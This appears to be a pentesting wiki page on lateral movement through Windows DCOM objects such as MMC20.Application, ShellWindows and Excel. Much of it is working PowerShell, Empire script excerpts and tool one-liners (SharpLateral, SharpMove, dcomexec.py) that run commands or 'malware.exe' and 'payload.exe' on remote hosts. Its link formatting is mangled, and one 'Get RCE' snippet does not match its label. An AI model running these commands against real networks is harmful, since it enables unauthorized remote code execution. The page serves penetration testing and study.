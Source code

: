 # DCOM Exec


## MMC20.Application

**For more info about this technique chech the original post from [[https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/|https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/]]**

Distributed Component Object Model (DCOM) objects present an interesting capability for network-based interactions with objects. Microsoft provides comprehensive documentation for both DCOM and Component Object Model (COM), accessible [[https://msdn.microsoft.com/en-us/library/cc226801.aspx) and [here for COM](<https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363(v=vs.85).aspx>|here for DCOM]]. A list of DCOM applications can be retrieved using the PowerShell command:

```bash
Get-CimInstance Win32_DCOMApplication
```
```
The COM object, [[https://technet.microsoft.com/en-us/library/cc181199.aspx|MMC Application Class (MMC20.Application)]], enables scripting of MMC snap-in operations. Notably, this object contains a `ExecuteShellCommand` method under `Document.ActiveView`. More information about this method can be found [[<https://msdn.microsoft.com/en-us/library/aa815396(v=vs.85).aspx>|here]]. Check it running:

This feature facilitates the execution of commands over a network through a DCOM application. To interact with DCOM remotely as an admin, PowerShell can be utilized as follows:

```bash
[activator]::CreateInstance([type]::GetTypeFromProgID("<DCOM_ProgID>", "<IP_Address>"))
```
```
This command connects to the DCOM application and returns an instance of the COM object. The ExecuteShellCommand method can then be invoked to execute a process on the remote host. The process involves the following steps:

Check methods:

```bash
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com.Document.ActiveView | Get-Member
```
```
Get RCE:

```bash
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com | Get-Member

# Then just run something like:

ls \\10.10.10.10\c$\Users
```
```
## ShellWindows & ShellBrowserWindow

**For more info about this technique check the original post [[https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/|https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/]]**

The **MMC20.Application** object was identified to lack explicit "LaunchPermissions," defaulting to permissions that permit Administrators access. For further details, a thread can be explored [[https://twitter.com/tiraniddo/status/817532039771525120), and the usage of [@tiraniddo](https://twitter.com/tiraniddo|here]]’s OleView .NET for filtering objects without explicit Launch Permission is recommended.

Two specific objects, `ShellBrowserWindow` and `ShellWindows`, were highlighted due to their lack of explicit Launch Permissions. The absence of a `LaunchPermission` registry entry under `HKCR:\AppID\{guid}` signifies no explicit permissions.

### ShellWindows

For `ShellWindows`, which lacks a ProgID, the .NET methods `Type.GetTypeFromCLSID` and `Activator.CreateInstance` facilitate object instantiation using its AppID. This process leverages OleView .NET to retrieve the CLSID for `ShellWindows`. Once instantiated, interaction is possible through the `WindowsShell.Item` method, leading to method invocation like `Document.Application.ShellExecute`.

Example PowerShell commands were provided to instantiate the object and execute commands remotely:

```bash
# Example
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)

# Need to upload the file to execute
$COM = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.APPLICATION", "192.168.52.100"))
$COM.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\calc.exe", $Null, $Null, "7")
```
```
### Lateral Movement with Excel DCOM Objects

Lateral movement can be achieved by exploiting DCOM Excel objects. For detailed information, it's advisable to read the discussion on leveraging Excel DDE for lateral movement via DCOM at [[https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom|Cybereason's blog]].

The Empire project provides a PowerShell script, which demonstrates the utilization of Excel for remote code execution (RCE) by manipulating DCOM objects. Below are snippets from the script available on [[https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1|Empire's GitHub repository]], showcasing different methods to abuse Excel for RCE:

```bash
# Detection of Office version
elseif ($Method -Match "DetectOffice") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $isx64 = [boolean]$obj.Application.ProductCode[21]
    Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
# Registration of an XLL
elseif ($Method -Match "RegisterXLL") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $obj.Application.RegisterXLL("$DllPath")
}
# Execution of a command via Excel DDE
elseif ($Method -Match "ExcelDDE") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $Obj.DisplayAlerts = $false
    $Obj.DDEInitiate("cmd", "/c $Command")
}
```
```
### Automation Tools for Lateral Movement

Two tools are highlighted for automating these techniques:

- **Invoke-DCOM.ps1**: A PowerShell script provided by the Empire project that simplifies the invocation of different methods for executing code on remote machines. This script is accessible at the Empire GitHub repository.

- **SharpLateral**: A tool designed for executing code remotely, which can be used with the command:

```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
```
- [[https://github.com/0xthirteen/SharpMove|SharpMove]]:

```bash
SharpMove.exe action=dcom computername=remote.host.local command="C:\windows\temp\payload.exe\" method=ShellBrowserWindow amsi=true
```
```
## Automatic Tools

- The Powershell script [[https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1|**Invoke-DCOM.ps1**]] allows to easily invoke all the commented ways to execute code in other machines.
- You can use Impacket's `dcomexec.py` to execute commands on remote systems using DCOM.

```bash
dcomexec.py 'DOMAIN'/'USER':'PASSWORD'@'target_ip' "cmd.exe /c whoami"
```
```
- You could also use [[https://github.com/mertdas/SharpLateral|**SharpLateral**]]:

```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
```
- You could also use [[https://github.com/0xthirteen/SharpMove|**SharpMove**]]

```bash
SharpMove.exe action=dcom computername=remote.host.local command="C:\windows\temp\payload.exe\" method=ShellBrowserWindow amsi=true
```
```
## References

- [[https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/|https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/]]
- [[https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/|https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/]]



